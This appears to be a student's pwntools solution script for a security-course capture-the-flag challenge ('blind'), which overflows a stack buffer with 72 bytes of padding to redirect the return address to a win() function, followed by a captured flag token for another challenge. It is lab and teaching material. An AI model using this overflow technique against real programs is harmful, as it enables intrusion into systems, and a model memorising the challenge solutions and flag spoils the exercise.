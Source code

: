 ```
exe = './blind'

PROGNAME = exe
REMOTE = "comp6447.wtf"
REMOTEPORT = 20677
global p
global e
global global_timeout

e = ELF(PROGNAME)

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

if args.REMOTE:
    global_timeout = 3
    p = remote(REMOTE, REMOTEPORT)
else:
    global_timeout = 0.5
    p = process(PROGNAME)
    p = start()
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

#This is almost exactly the same as jump...
p.recvuntil(b'jump...', drop=True)
#Address at 0x80484d6, courtesy of binaryninja
payload = b'a' * (64+8) + p32(0x80484d6)
p.sendline(payload) #Instead of returning to main, go to win()
p.interactive()
```

bestsecurity
===============================================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMS1iZXN0c2VjdXJpdHkiLCJpcCI6IjE0NC4xMzYuMjguMzYiLCJzZXNzaW9uIjoiM2NhMjBmMmYtYmNkZi00ZWY1LWI3ZDAtZWE1M2UzNmU2NTgwIn0.rnn90iqj62lvPE0f9GZeJGQuonJzmHDT6pMhBNSEGl4}
